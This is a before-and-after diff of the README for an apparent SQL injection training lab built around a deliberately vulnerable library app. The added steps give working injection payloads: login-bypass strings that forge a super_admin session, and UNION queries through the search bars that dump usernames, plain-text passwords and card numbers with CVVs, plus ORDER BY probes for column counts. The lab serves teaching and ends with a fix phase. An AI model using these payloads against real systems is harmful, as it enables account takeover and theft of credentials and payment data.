

Before and after one commit to anass-ben-2005/sqli-lab, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -362,7 +402,7 @@ Username: ' UNION SELECT 99,'hacker','super_admin'--
 Password: (anything)
 ```
 
-Observe: The session shows `user: hacker`, `role: super_admin`. Navigate to `/secrets` — the simulated credential dump is accessible. **Note**: this user does not exist in the database — the session is entirely fabricated.
+Observe: Session shows `user: hacker`, `role: super_admin`. Navigate to `/secrets` — card data visible.
 
 ---
 
@@ -373,31 +413,83 @@ Username: root_admin'#
 Password: (anything)
 ```
 
-Observe: Logs in as `root_admin` with `super_admin` role directly.
-
 ---
 
-#### Attack 6 — Role-Based Targeting (without knowing username)
+#### Attack 6 — Role-Based Targeting
 
 ```
 Username: ' OR role='super_admin'--
 Password: (anything)
 ```
 
-Observe: Returns first super_admin row without knowing the username.
+---
+
+### Phase 6 — Exploit the Search Vulnerability (Per-Page)
+
+Once logged in, each data page has a search bar vulnerable to UNION-based and error-based injection.
+
+#### Column Counts per Route
+
+| Route | Base Query Columns | Column Count |
+|-------|-------------------|:------------:|
+| `/books` | id, title, author, genre, year, copies | **6** |
+| `/loans` | l.id, m.username, b.title, loaned_at, due_at, returned_at | **6** |
+| `/members` | id, username, email, role, created_at | **5** |
+| `/secrets` | id, username, email, role, card_number, card_expiry, card_cvv, card_type | **8** |
+
+#### UNION Injection — Extract passwords via `/books`
+
+Enter in the `/books` search bar:
+
+```
+' UNION SELECT 1,username,password,role,5,6 FROM members#
+```
+
+The book table will display all usernames and their plain-text passwords.
+
+#### UNION Injection — Extract card data via `/books`
+
+```
+' UNION SELECT 1,username,card_number,card_type,card_expiry,card_cvv FROM members#
+```
+
+#### UNION Injection — Extract passwords via `/members`
+
+Enter in the `/members` search bar:
+
+```
+' UNION SELECT 1,username,password,role,5 FROM members#
+```
+
+#### UNION Injection — Extract passwords via `/secrets`
+
+Enter in the `/secrets` search bar:
+
+```
+' UNION SELECT 1,username,password,4,5,6,7,8 FROM members#
+```
+
+#### Error-Based Injection — Probe column count
+
+Enter in any search bar:
+
+```
+' ORDER BY 1#          → works
+' ORDER BY 6#          → works (if 6 columns)
+' ORDER BY 7#          → error → confirms column count
+```
 
 ---
 
-### Phase 6 — Demonstrate Impact
-
-Navigate to each of these to show privilege escalation impact:
+### Phase 7 — Demonstrate Impact
 
 1. **`/dashboard`** → shows session role in the UI
-2. **`/members`** → visible only after admin bypass (P3/P6)
-3. **`/secrets`** → visible only after super_admin bypass (P4/P5) — shows complete member dump
-4. **`/cheatsheet`** → full payload reference (great for a live demo)
+2. **`/books`** → search bar can dump entire member table via UNION
+3. **`/loans`** → UNION can extract data from any table
+4. **`/members`** → visible only after admin bypass — search dumps passwords
+5. **`/secrets`** → visible only after super_admin bypass — shows card data + search allows cross-table extraction
 
 ---
 
-### Phase 7 — Show the Fix
+### Phase 8 — Show the Fix
 
````
Also changed, not shown: other parts of README.md (+168 -89 lines).
